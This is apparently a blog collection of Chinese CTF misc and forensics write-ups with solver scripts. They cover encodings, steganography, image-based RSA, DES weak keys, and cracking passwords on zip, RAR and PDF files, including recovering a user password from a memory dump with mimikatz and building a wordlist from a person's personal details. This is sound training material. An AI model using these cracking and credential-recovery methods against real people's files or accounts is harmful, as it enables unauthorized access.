['xxfxc', 'xxfst', 'xxtfc', 'xxfxt', 'xxfft', 'xxttc', 'xxffs', 'xxsft', 'xxftc', 'xxtfx', 'xxtfc', 'xxfcf', 'xxfxs', 'xxtfx', 'xxctx', 'xxfcx', 'xxtfx', 'xxsff', 'xxfsf', 'xxtfc', 'xxfxt', 'xxcxs', 'xxtfx', 'xxfsf', 'xxtfc', 'xxftx', 'xxfts', 'xxfxs', 'xxfcf', 'xxsfc', 'xsxxx']
```

仔细观察上面的数据，发现都是x开头的，然后每个字符串的长度都是5，并且字符集就是`xsctf`这五个字符

因此猜测是五进制，结合最后一个字符`xsxxx`对应`01000(125)`刚刚好是`{`，更加确定是五进制了

因此我们写一个脚本转换一下即可得到flag：`flag{\y0u_are_An_1mag3_master/}`

```python
lst = ['xxfxc', 'xxfst', 'xxtfc', 'xxfxt', 'xxfft', 'xxttc', 'xxffs', 'xxsft', 'xxftc', 'xxtfx', 'xxtfc', 'xxfcf', 'xxfxs', 'xxtfx', 'xxctx', 'xxfcx', 'xxtfx', 'xxsff', 'xxfsf', 'xxtfc', 'xxfxt', 'xxcxs', 'xxtfx', 'xxfsf', 'xxtfc', 'xxftx', 'xxfts', 'xxfxs', 'xxfcf', 'xxsfc', 'xsxxx']

trans = str.maketrans("xsctf","01234")

flag = ""
for item in lst:
    flag += chr(int(item.translate(trans),5))
    
print(flag)
# flag{\y0u_are_An_1mag3_master/}
```


## 题目名称 mos

附件给了一个zip压缩包，尝试解压发现报错


用010打开，发现是文件头损坏了，因此我们修复一下PK文件头`504B0304`


然后解压发现需要密码，因此我们尝试使用弱密码字典爆破，爆破得到解压密码：`1234`


然后解压得到一个TXT文件，vscode打开发现全是换行符和TAB


上面没有发现什么信息，然后尝试了Snow和WhiteSpace也没有发现什么，因此尝试用010打开


发现只有`0D0A`和`09`这两种字符，因此很容易就能联想到要转换为二进制

直接CyberChef转换一下即可得到flag：`DASCTF{dmF1Swofv__hpDYa52y6g4eGJEt_KX}`


## 题目名称 Misc-1

附件给了一张PNG图片，010打开发现有报错，拉到最后面发现图片末尾藏了一个PDF文件


手动把PDF文件提取出来，打开发现需要密码


直接使用`pdfcrack`弱密码字典爆破一下即可得到密码：`qazwsx123`，打开即可得到flag：`flag{Misc_iS_S0eAsy!}`


## 题目名称 654321

附件给了一张PNG图片，010打开发现报错，发现图片末尾藏了一个RAR压缩包


手动提取出来并解压，得到一个`hint.docx`，里面的内容如下


提示了`Image steganography`这个工具，然后结合图片名字`654321`，猜测这个就是解密的密码

因此使用`Image steganography`解密即可得到flag：`zjctf{060cdc53440dde37f2d48c33da37113b4d95a458}`


## 题目名称 丢失的关键基础设施固件

题面信息如下：
> 丢失的关键基础设施固件
> 
> 尝试从内存镜像中找回丢失的固件，并从固件中找到关键信息


附件给了一个`memdump.raw`内存镜像，直接R-stdio打开先粗略的看一遍

发现在Develop用户的桌面上有个`secret.zip`和两个压缩和解压的exe



因此尝试用vol2把桌面上这几个文件提取出来（但是好像zip.exe是提取不出来的）


提取出来后发现需要解压密码


我们使用`mimikatz`插件可以爆破出`develop`用户的密码：`!Qaz@Wsx`，但是不是压缩包的解压密码


然后在`iehistory`中可以知道丢失的固件名称为`红绿灯固件.txt`




回头仔细看那个压缩包，发现是Store+Zipcrypto，因此可以用PNG的文件头进行明文攻击

用bkcrack明文攻击后即可得到最后的flag


## 题目名称 QRSACode

题面信息如下

> 描述：p = 13,q = 19,e = ?

解压附件给的压缩包，可以得到如下两张图片，其中`task.png`中隐约可以看到一张二维码


然后结合题面的信息，我们知道在RSA中`e`要和`phi`互质，其中`phi=(q-1)*(p-1)`

因此我们可以写个脚本得到`e`所有可能的取值范围

```python
import gmpy2

def cal_e():
    p = 13
    q = 19
    phi = (p - 1) * (q - 1)
    res = [e for e in range(2, 256) if gmpy2.gcd(e, phi) == 1]
    # print(len(res)) # 84
    # print(res)
    return res
```

得到`e`所有可能的取值如下，一共84种可能取值：

```
[5, 7, 11, 13, 17, 19, 23, 25, 29, 31, 35, 37, 41, 43, 47, 49, 53, 55, 59, 61, 65, 67, 71, 73, 77, 79, 83, 85, 89, 91, 95, 97, 101, 103, 107, 109, 113, 115, 119, 121, 125, 127, 131, 133, 137, 139, 143, 145, 149, 151, 155, 157, 161, 163, 167, 169, 173, 175, 179, 181, 185, 187, 191, 193, 197, 199, 203, 205, 209, 211, 215, 217, 221, 223, 227, 229, 233, 235, 239, 241, 245, 247, 251, 253]
```

然后我们尝试去读取`hint.png`中的像素点

```python
def func1():
    dic = {}
    img1 = Image.open("hint.png")
    width,height = img1.size # 50 50
    for y in range(height):
        for x in range(width):
            pixel = img1.getpixel((x,y))
            if pixel not in dic:
                dic[pixel] = 1
            else:
                dic[pixel] += 1
    # print(len(dic)) # 2496
    print(dic)
```

发现2500个像素点中有2496种像素，并且只有以下两种像素出现了2次，别的像素都是只出现一次

```
(133, 167, 215): 2
(31, 163, 119): 2
```

我们把所有像素打印出来可以发现，每个像素的RGB值都是取自我们之前得到的`e`的取值范围中

然后我们再去看`task.png`，发现图像时RGBA格式的，只不过A通道的值都是255

```python
def solve():
    dic = {}
    img1 = Image.open("task.png")
    width,height = img1.size # 50 50
    for y in range(height):
        for x in range(width):
            pixel = img1.getpixel((x,y))
            if pixel not in dic:
                dic[pixel] = 1
            else:
                dic[pixel] += 1
    # print(len(dic)) # 1112
    # print(dic)
```

发现一共有1112种不同的像素

并且背景接近白色的像素点的RGBA的值为`(246, 246, 246, 255)`，黑色像素点的RGBA值为`(0, 0, 0, 255)`

> 后来在 `@Aura` 师傅的帮助下，发现了其实图片中的每个像素的每个RGB的值都是RSA加密中的参数

因为我们之前得到了，`hint.png`中每个像素的每个RGB值都在`e`的取值范围中

然后`hint.png`和`task.png`的长宽是一样的，也就是说像素的个数以及RGB值的个数也是一样的，所以是一一对应的

因此我们可以联想到，把每个像素的每个RGB值都做一次RSA解密，`hint.png`中的是`e`，`task.png`中的是密文`c`

最后把我们RSA解密得到的`m`转为RGB值塞回图像中即可复原出二维码，扫码即可得到最后的flag：`DASCTF{R54_W1th_Cv_1s_Fun}`




最终的解题脚本如下：

```python
from PIL import Image
import gmpy2
import numpy as np

p = 13
q = 19
n = p * q # 247
phi = (p-1)*(q-1) # 216

def get_e():
    e_list = []
    img1 = Image.open("hint.png")
    width,height = img1.size
    for y in range(height):
        for x in range(width):
            pixel = img1.getpixel((x,y))
            for item in pixel:
                e_list.append(item)
    print(len(e_list))
    return e_list

def func1(e_list):
    c_list = []
    m_list = []
    img1 = Image.open("task.png")
    width,height = img1.size # 50 50
    for y in range(height):
        for x in range(width):
            r,g,b,a = img1.getpixel((x,y))
            c_list.append(r)
            c_list.append(g)
            c_list.append(b)
    print(len(c_list))
    for idx,e in enumerate(e_list):
        c = c_list[idx]
        d = gmpy2.invert(e, phi)
        m = pow(c, d, n)
        m_list.append(m)
    print(len(m_list))
    pixel_array = np.array(m_list, dtype=np.uint8).reshape((height, width, 3))
    img2 = Image.fromarray(pixel_array, mode="RGB")
    img2.save("decrypted.png")
    print("[+] 处理完成，已保存为 decrypted.png")
    
if __name__ == "__main__":
    e_list = get_e()
    func1(e_list)
```

## 题目名称 to(2025天山固网)

题目附件给了一个pcapng流量包

翻看流量包，发现有一个`falg.rar`


尝试打开，发现需要密码，因此猜测我们还需要到流量包中寻找解压密码

我们先将所有http对象导出，然后依此查看

可以在hello.html中找到如下内容


一开始以为是密码字典，但是经过尝试发现并不是

在导入过程中发现了这些字符组成了一个42x42的矩阵（正方形->猜测是二维码）

然后发现最外围一圈全是小写字母，因此尝试把大小写字母转为0和1，再转为二维码可以得到下图


```python
from PIL import Image

def save_binary_to_png(data_str, out_file="output.png", scale=10):
    h = 42
    w = 42
    img = Image.new("L", (w, h))
    for y in range(h):
        for x in range(w):
            ch = data_str[y * w + x]
            if ch == "1":
                img.putpixel((x, y), 0)     # 黑色
            else:
                img.putpixel((x, y), 255)   # 白色
    if scale > 1:
        img = img.resize((w*scale, h*scale), Image.NEAREST)

    img.save(out_file)
    print(f"[+] Saved: {out_file}")

def solve():
    flag = ""
    data = '''
    xwsoawzfknojzwejkrmsewynkoichlsgxiduinsklf
    yPZUIQGHEadEGfohHeISleDsLvqleMaryIMUPMEAIc
    aOzezoevMpeIZmUABHDDQNAFwhgqynYtbAntvgbhNq
    dReTZSEuOjxCVRNGDvfzDZQmTTDZPfQwwYkEIEToDu
    cFrJVUCvBndOJRMFXppxMSVmYQSINrLrzUyIKPBuMv
    vJfLLPIgUnhjaFaiDafXIZnWlspnBSwmbSqKNGEjJt
    lEfHPSMrKmpoZlolmYamKOJARccoxlMonFrNAXUuOs
    tTrknqbzUnuTZAnzYlQxAJKUXhEHbxkgxOdbzcvbPe
    fLKJSSGZVsiXyIoqKgBgPBuZhXuqZpEtsJDENSSUKh
    zkyintuqwjfHOYCSiFSCbfMvTjYBlhDfgzfwryxfxf
    mgorlmjgqwiYEKEOcHVGzcCdKfXTwiFyyxakvffvmb
    pypIOXBuYdmRHfKYkqfkJEWrcqdwCaGDTETtdTYLBc
    qaOYZtXKgnqLqTvbGWFfNABIULxdzJrNFWfjqglGLa
    kpifniZqGmtGcwkwTbInapWDUSndLmYCEaRwbIZQjf
    zcRsskImaaktyaAEQCYwEMgfsmqowSXguEcjFUYacy
    cuXfchFnhrmppjNPDIPrZMtrkjfjaGZblQmhPVIxbu
    wPZJICEiALOANFwaIEgsFIMMceQFWCNOMfJvzpjtYw
    dOGMXoZPwERhAronbdWtURHrKuvhzOrhqExMCncXTp
    uEadoMPxWdqiqKQQydQgHIcDQSxsisEQQtBArnfWaq
    yZdNMVOQiLEqkIIEsWNgNGWknoAXlrSzymkMEiloNo
    jpxBPJKXTKYWuIjvvDvNqzwPShhhFYRUQcSQlRQaOf
    acjTBNFPQFZMsZrjzMjZcbhIHnmmCGYNMvEHtKMvHj
    aJXVLJrWbxufHmcoDjPXitiddVvrxBjtgOwjvWPqwc
    tpUvbIGZJnyxhYyxwYlxMLtfMRfvgjjebtaKNmvzhq
    fBfXVdAcmHHLJIKJaEHkuyJBHlOCkhUOKiDtBDMXKf
    niUOLbjbYgtDYqDQadcIhqsmoiszAgTkhzRHTgrtfu
    jFqyrqOtlrlBxKfoqzOlPDigEKIVowuVNtwowQTzNe
    wDpqogPjgpiInPbeycJfLKnpYSQRffcQAgbiqVHaHx
    zKsSVYWXDOCyxpIAPQyAXClurmQIPVRaawZlXysWwh
    aVibdxPPcwlVJzpvslGfLWnshkROmZsNVDwiYVCyOz
    cPdMGJHtWYDqWhhcCknGusYXZJqmVXVKRPSAsqvpKt
    kdbjynqdekdZseNYrEqYLFePAJDYYwHinccQndztIh
    mfsqtjkdxcsDaaUJuGfFCPiUEYOBUsKpfggIjyvuJp
    tJKWKWSHHokapfecpGfuyisXziSDkZPxhOoHMukVnk
    rLfpalbeTxacxFRHRpHZftGjtMXTOKYsrckHBBCCPo
    sXcHKNJkOgxURfidXZthchdBoTJTqbFYRJVIZemdXm
    oTbCRVEoQyhZYSQCaVrsNLpEWlckAsoXVvOPuNDGsv
    yTfMQCVxBiyTvvNRMibBGFDDNltjJOChlNpjALBoos
    lKoUHLBdFveKvzFPBwvLTVQHDypjNOGxrJdaDIBdnh
    rSobpwjtYkmwwawtRrHrFPMgzfobhntphVbFcAJmvn
    nHHKBFFGMzywuXjwZDgtqnPQRWJPQBVlhqPdJFTJcc
    bpvrwdbuhrgrgackekaotpwbeclbnlamzzuhrqmwjg
    '''
    for i in range(len(data)):
        if data[i] >= 'a' and data[i] <= 'z':
            flag += '0'
        elif data[i] >= 'A' and data[i] <= 'Z':
            flag += '1'
    # print(flag)
    save_binary_to_png(flag)


if __name__ == "__main__":
    solve()
```

虽然这个二维码有点问题，但是用微信扫码可以得到：`ssdsahjkhsdfhhkjjhksdfjhds`

但是这个也不是压缩包的解压密码，因此我们回头继续看流量包

发现还传了一张jpg图片，并且jpg图片中有提示：`I've heard of Dvorak`


Dvorak是一种键盘布局，详细内容可以看我博客里的 [Misc Guide](https://goodlunatic.github.io/posts/1ad9200/)

因此结合之前得到的内容，猜测我们需要把扫码得到的字符串转换到Dvorak上

或者是把扫码得到的字符串从Dvorak转换过来，我这里就直接写个脚本转了

```python
qwerty_lower = r"""qwertyuiop[]\asdfghjkl;'zxcvbnm,./"""
dvorak_lower = r"""',.pyfgcrl/=\aoeuidhtns-;qjkxbmwvz"""

qwerty_upper = r"""QWERTYUIOP[]\ASDFGHJKL;'ZXCVBNM,./"""
dvorak_upper = r""""<>PYFGCRL?+|AOEUIDHTNS_:QJKXBMWVZ"""

# 构建映射字典
d2q = str.maketrans(dvorak_lower + dvorak_upper,
                    qwerty_lower + qwerty_upper)

q2d = str.maketrans(qwerty_lower + qwerty_upper,
                    dvorak_lower + dvorak_upper)

def dvorak_to_qwerty(text: str) -> str:
    return text.translate(d2q)

def qwerty_to_dvorak(text: str) -> str:
    return text.translate(q2d)

if __name__ == "__main__":
    text = "ssdsahjkhsdfhhkjjhksdfjhds"
    print(dvorak_to_qwerty(text))
    print(qwerty_to_dvorak(text))
    # ;;h;ajcvj;hyjjvccjv;hycjh;
    # ooeoadhtdoeuddthhdtoeuhdeo
```

其中 `ooeoadhtdoeuddthhdtoeuhdeo` 就是rar的解压密码

解压后即可得到最后的flag：`DASCTF{jhughudshhjg_qiwjains_jsmka}`

## 题目名称 数字雨(2025天山固网)

题目附件给了下面这张PNG（图片比较大，有40多兆，因为宽高是6000x4000）


我们用PS打开查看，发现每一列都有长度为80的同一绿色像素(18, 255, 2)



如果做过b01lers的image_adjustments这道题的师傅肯定一眼就知道图片的意图是啥了

就是要我们为每列像素加一个偏移量，让每一列中的这80个绿色像素都对齐

具体原理和步骤可以参考的我的另一篇博客：[2020 b01lers Misc image_adjustments 赛题详解](https://goodlunatic.github.io/posts/00658ee/)

写个脚本对齐后，就可以得到下图


我们再次用PS打开查看


发现这次是每一行有80个同一绿色像素(18, 255, 2)了，因此我们和上面一样

尝试计算偏移量并对齐每一行的绿色像素即可得到最后的flag: `DASCTF{herE_c0mes_thE_D1g1taL_ra1n}`


最后附上完整的解题脚本：

```python
import numpy as np
from PIL import Image

def process_image_cols(input_path, output_path):
    # 打开图像并转换为NumPy数组
    img = Image.open(input_path)
    img_array = np.array(img)
    h, w = img_array.shape[:2]

    green_pixel = np.array([18, 255, 2], dtype=img_array.dtype)
    
    for x in range(w):
        # 获取当前列的所有像素
        column = img_array[:, x, :].copy()
        
        # 尝试所有可能的偏移量
        for i in range(h):
            # 应用偏移
            shifted_column = np.roll(column, i, axis=0)
            img_array[:, x, :] = shifted_column
            # 检查前80行是否都是绿色像素
            if np.all(img_array[:80, x, :] == green_pixel):
                print(f"[+] {x} 列偏移量调整完毕: {i}")
                break
    
    # 将NumPy数组转换回PIL图像并保存
    result_img = Image.fromarray(img_array)
    result_img.save(output_path)
    result_img.show()

def process_image_rows(input_path, output_path):
    # 打开图像并转换为NumPy数组
    img = Image.open(input_path)
    img_array = np.array(img)
    h, w = img_array.shape[:2]
    
    green_pixel = np.array([18, 255, 2], dtype=img_array.dtype)
    
    for y in range(h):
        current_row = img_array[y, :, :].copy()
        
        # 尝试所有可能的水平偏移量
        for shift in range(w):
            shifted_row = np.roll(current_row, shift, axis=0)
            
            # 检查前80个像素是否全部是绿色
            if np.all(shifted_row[:80] == green_pixel):
                print(f"[+] {y} 行偏移量调整完毕: {shift}")
                img_array[y, :, :] = shifted_row
                break
    
    result_img = Image.fromarray(img_array)
    result_img.save(output_path)
    result_img.show()

if __name__ == "__main__":
    process_image_cols('img.png', 'col_solved.png')
    process_image_rows('col_solved.png','flag.png')
```

## 题目名称 capture(2025年浙江省信息通信业职业技能竟赛-数据安全管理员竞赛决赛)

题目附件给了一个很小的pcapng流量包（27kb）


打开翻看发现是100个UDP数据包，然后看样子是传了json一样的数据

因此我们可以直接 `strings capture.pcapng > 1.txt` 把里面的内容导出来

导出来后，手动删去干扰的字符，可以得到如下内容：



提示了是DES-xxx加密算法，并且用了四个不同的密钥

仔细观察可以发现，每个密文的前面部分内容都是一样的

因此猜测明文的开头是一样的，并且key_id相同的密文，用的密钥也是一样的

之前就听说过DES是由于安全性而被AES所替代了，并且在网上搜索过程中发现了下面这篇文章：

https://noob-atbash.github.io/CTF-writeups/cyberwar/crypto/chal-5.html

尝试用文中的四个弱密钥去解密，发现有一半的数据可以正常解出来

并且可以得到解密后明文的开头是 `FLAG_HEADER:DATA`

然后仔细看了[这篇帖子](https://crypto.stackexchange.com/questions/7938/may-the-problem-with-des-using-ofb-mode-be-generalized-for-all-feistel-ciphers)后，尝试用  `\x00 \xFF \xF0 \x0F \x1E \xE1` 去生成密钥爆破

```python
from Crypto.Cipher import DES
from itertools import product
from base64 import b64decode

BYTES = [b'\x1E', b'\xE1', b'\xF0', b'\x0F', b'\x00', b'\xFF']

def generate_keys():
    byte_combinations = product(BYTES, repeat=8)
    for combo in byte_combinations:
        yield b''.join(combo)

def brute_force_decrypt(encrypted_data):
    for key in generate_keys():
        cipher = DES.new(key, DES.MODE_ECB)
        try:
            decrypted = cipher.decrypt(encrypted_data)
            if decrypted.startswith(b"FLAG"):
                print(f"Found valid key: {key}")
                print(f"Decrypted data: {decrypted}")
                return key
        except:
            continue
    return None

encrypted_data = b64decode("ftNbIBh+yU8rzOhvbAplhB1hoQkblsKa+uGaNnTudD2LGw0+5fOHXycXZDujJFWwHZjIg5bfDpKFsqI18Ts7ZGG8dpqWAzar")
found_key = brute_force_decrypt(encrypted_data)
if not found_key:
    print("No valid key found.")
```

发现一会就能爆破出密钥，用得到的密钥去解密即可得到最后的flag：`flag{9adee0d8d9db40fc99e8366bf2bd474d}`


```python
from Crypto.Cipher import DES
from base64 import *

key_list = [b"\x1E\x1E\x1E\x1E\x0F\x0F\x0F\x0F",b"\xE1\xE1\xE1\xE1\xF0\xF0\xF0\xF0",b"\xff\x00\xff\x00\xff\x00\xff\x00",b"\x00\xff\x00\xff\x00\xff\x00\xff"]

def solve():
    with open('2.txt','r') as f:
        data = f.read().split()
    for item in data:
        ciphertext = b64decode(item)
        for KEY in key_list:
            a = DES.new(KEY, DES.MODE_ECB)
            plaintext = a.decrypt(ciphertext)
            # print(plaintext)
            if b"FLAG" in plaintext:
                print(plaintext)
                # print(f"[+] 用密钥 {KEY} 解密成功:\n{plaintext}")   

if __name__ == "__main__":
    solve()
```

## 题目名称 带密码的zip(中国铁塔内部选拔赛)


题面信息如下：

> 小明把qq密码存在了一个txt文档里，并且将其进行了zip压缩；
> 
> 不过小明忘记了解压密码，只记得密码是自己个人信息的组合
> 
> 你能帮小明找回密码吗？
> 
> 已知：
> 
> 姓名 xiaoming
> 
> 生日 19901002
> 
> 邮箱 xm1990@163.com
> 
> 手机 13351231732


根据题面信息，直接写个脚本生成字典，然后爆破压缩包密码即可

```python
import itertools


elements = ['xiaoming', '19901002', 'xm1990@163.com', '13351231732']
all_passwords = []

for r in range(1, len(elements)+1):
    # 选择大小为r的子集
    for subset in itertools.combinations(elements, r):
        # 对每个子集生成所有排列
        for perm in itertools.permutations(subset):
            # 将排列连接成一个字符串
            password = ''.join(perm)
            all_passwords.append(password)

print(f"[+] 总共生成了 {len(all_passwords)} 种可能的密码")

with open('possible_passwords.txt', 'w') as f:
    for p in all_passwords:
        f.write(p + '\n')
```


输入密码解压后即可得到最后的flag：`nsfocus{xiaoming13351231732}`

## 题目名称 安全杂项1(交通运输行业大赛)

解压附件压缩包，得到一个wav音频和一个加密的压缩包


用audacity打开音频查看频谱图，调一下频率上下限和灰度显示

可以得到压缩包解压密码的正则


然后掩码爆破即可得到压缩包的解压密码：`Kaelin0808`


用得到的密码解压后，msg.txt中的内容是一串emoji

```
👝👣👘👞👲👛👜🐰🐩👘👛👜🐪🐤🐫🐬👚🐭🐤🐮🐩👙🐯🐤🐩👝👝👛🐤👝🐭👚👚👙🐨👚🐧🐪👛👛🐪👴
```

直接base100解密即可得到最后的flag: `flag{de92ade3-45c6-72b8-2ffd-f6ccb1c03dd3}`


## 题目名称 file.png(某内部赛)

解压附件压缩包，得到一张file.png，直接拿zsteg扫一下


发现LSB中隐写了一张PNG图片，尝试用`zsteg -e b3,bgr,lsb,xy file.png > out.png`命令导出

可以得到下面这张图片


010打开，发现末尾藏了一个压缩包


提取出来解压或者直接在010中提取，即可得到最后的flag：`flag{Least_Significant_Bit_Steganography}`

## 题目名称 easy_crypto

解压附件压缩包，可以得到一个key.txt还有一个加密的flag.rar

key.txt中的内容如下：

> 1091091153210977773210977109457732774646324677831153277464546324611511545838377321098377

将数字分割到32-126范围上转ASCII，然后再大小写 m 转成 - ，大小写 s 转成 . ，解摩斯得到压缩包解压密码：`GO0DLC$K`


解压rar后得到一个多层base64套娃，循环解base64即可得到flag：`DASCTF{a3dcb4d229de6fde0db5686dee47145d}`


## 题目名称 new

解压附件压缩包，可以得到下面这张PNG图片


先用zsteg梭一把，发现没有啥特别的东西


然后拿stegsolve去看，发现 R0 G0 B0 都有明显LSB隐写的痕迹


因此尝试提取图中的LSB数据，在位顺序选择LSB优先时可以发现JPG图片的文件头


提取出来并删去前面多余数据后，即可得到最后的flag：`flag{054e676ef5f0de537ebe6604fadaf0fc}`


> 这道题为啥用zsteg没法识别出来jpg呢？因为题目在隐写的jpg图片前添加了一些干扰数据

## 题目名称 安全杂项10 (交通运输行业大赛)

解压附件压缩包可以得到下面这张PNG


仔细观察可以发现图片下面这几行的像素是有问题的

然后我们拿zsteg扫的时候，发现也报错了，说明图片肯定是经过篡改的


因此我们拿pngcheck来检查一下图片，发现图片确实是被篡改了


到这里，就猜测这道题考察的可能是PNG的IDAT隐写

所以我们拿010把PNG的最后一个IDAT块提取出来，并用Cyberchef解压一下


解压后即可得到密文和密钥，并且密钥是8字节的

经过尝试发现RC4解密即可得到最后的flag：`flag{edb99a94-f84d-e175-8a7d-e7f658789447}`


## 题目名称 file2

